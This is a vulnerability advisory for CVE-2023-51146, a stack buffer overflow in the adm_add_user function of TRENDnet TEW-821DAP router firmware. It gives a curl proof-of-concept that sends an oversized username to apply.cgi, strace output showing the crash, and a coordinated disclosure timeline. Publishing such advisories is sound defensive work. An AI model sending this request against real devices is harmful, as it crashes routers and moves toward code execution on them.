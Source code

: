 # Buffer overflow in adm\_add\_user (CVE-2023-51146) #

## Summary
We identified a buffer overflow vulnerability on TRENDnet AC1200 TEW-821DAP device (v2.0R and v2.5R, firmware version 3.00b06). The `adm_add_user` function of the device's web interface can be exploited by an authenticated attacker to trigger a Denial of Service (DoS) condition or possibly execute arbitrary code.

## Affected products
* TRENDnet AC1200 TEW-821DAP V2.0R (firmware 3.00b06)
* TRENDnet AC1200 TEW-821DAP V2.5R (firmware 3.00b06)

## Details
The `ssi` service is vulnerable to a security issue related with the `adm_add_user` action. Specifically, parameter `username` within this action can be exploited to manipulate the return address of the corresponding request-handling function.

The root cause of this vulnerability is the missing length check of the `username` parameter before being used in the following `sprintf()` call:

```
sprintf(buffer, "grep \"^%s:\" /etc/passwd", username);
```

In the statement above, `buffer` is a 64-byte array, and `username` is a value passed via HTTP requests, with a maximum size of 256 characters. The buffer variable is located at -0x44 (-68) bytes from the stack pointer.

By sending an HTTP request with a `username` parameter containing 256 characters, an attacker can trigger a stack-based buffer overflow, leading to stack corruption.

## PoC

```
curl -i -s -k -X $'POST' \
	-H $'Host: <Target IP>' -H $'Content-Type: application/json' -H $'Authorization: Bearer 50b7332d-b6eb-44b7-99b0-6d06d52913d6' -H $'Content-Length: 314' -H $'Connection: close' \
	--data-binary $'{\"username\":\"<a x 256>\",\"password\":\"pluto\",\"action\":\"adm_add_user\"}' \
	$'http://<Target IP>/apply.cgi'
```

When the request above is processed by the device web UI a stack-based buffer overflow occurs, as shown in the `strace` output below (here we traced `uhttpd`, that eventually executes the vulnerable `ssi` CGI).

```
[pid  2361] [77376c74] execve("/www/cgi/ssi", ["/www/cgi/ssi", "/www/apply.cgi"], [...]) = 0
[pid  2291] [773bcedc] write(13, "{\"username\":\"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\",\"password\":\"pluto\",\"action\":\"adm_add_user\"}", 314) = 314
strace: Process 2362 attached
[...]
[pid  2363] [777cec74] execve("/bin/grep", ["grep", "^aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:", "/etc/passwd"], [...]) = 0
[...]
[pid  2361] [77db3edc] write(2, "stack smashing detected: ", 25) = 25
[pid  2361] [77db3edc] write(2, "/www/cgi/ssi", 12) = 12
[pid  2361] [77db3edc] write(2, " terminated", 11) = 11
[pid  2361] [77db3edc] write(2, "()\n", 3) = 3
[pid  2361] [77d71664] --- SIGIOT {si_signo=SIGIOT, si_code=SI_USER, si_pid=2361, si_uid=0} ---
[pid  2361] [????????] +++ killed by SIGIOT +++
[pid  2291] [773bcedc] write(9, "HTTP/1.1 502 Bad Gateway\r\nConnection: close\r\nContent-Type: text/plain\r\nTransfer-Encoding: chunked\r\n\r\n", 101) = 101
```

## Impact
By exploiting this vulnerability it could be possible to alter the normal behavior of the web server that hosts the management GUI of the router and possibly achieve arbitrary code execution.

## Additional information

### Credit
Spike Reply Cybersecurity Team

### Disclosure timeline

- December 6, 2023: Initial vendor contact
- December 11, 2023: Vulnerability confirmed by TRENDnet
- January 2, 2024: TRENDnet shares a preview version of the firmware that includes the security fixes 3.02B04
- January 8, 2024: Spike confirms that security fixes included in firmware 3.02B04 are effective
- January 9, 2024: TRENDnet confirms that customers will be notified about the new firmware version
- March 8, 2024: Disclosure
